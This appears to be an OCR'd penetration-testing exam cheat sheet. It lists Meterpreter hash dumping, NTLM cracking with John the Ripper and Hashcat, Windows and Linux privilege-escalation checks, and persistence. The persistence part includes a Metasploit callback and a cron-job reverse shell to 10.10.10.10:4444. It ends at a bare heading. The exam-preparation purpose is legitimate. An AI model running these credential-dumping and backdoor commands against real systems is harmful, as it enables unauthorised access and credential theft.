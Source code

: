 ### 1. Password Cracking (Exam Weight: 30%)

Windows Hash Extraction

```
meterpreter > hashdump
```

```
meterpreter > run post/windows/gather/smart_hashdump
```


John the Ripper (NTLM)

```
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Hashcat (GPU Accelerated)

```
hashcat -m 1000 ntlm_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### Privilege Escalation (Guaranteed Exam Task)

Windows (Meterpreter)

```
meterpreter > getsystem
```

```
meterpreter > run post/multi/recon/local_exploit_suggester
```

Linux (Manual)

```
find / -perm -4000 2>/dev/null  # SUID Binaries
```

```
sudo -l  # Check sudo permissions
```

### Maintaining Access

Metasploit Persistence

```
meterpreter > run persistence -X -i 60 -p 4444 -r 10.10.10.10
```

Cron Job Backdoor

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'" > cronjob
```

### Post-Exploitation Framework
